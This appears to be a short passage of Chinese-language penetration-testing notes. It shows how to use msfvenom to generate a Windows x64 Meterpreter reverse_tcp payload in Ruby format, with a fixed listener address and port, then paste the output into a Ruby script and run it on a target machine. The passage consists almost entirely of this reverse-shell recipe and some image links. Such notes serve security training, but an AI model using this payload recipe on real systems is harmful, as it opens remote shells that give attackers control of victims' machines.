 	目标机器装有ruby时
	生成
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f ruby
	粘贴到ruby中
![image](/assets/Pentest_Note/master/img/96.png)

	执行
	>ruby xx.ruby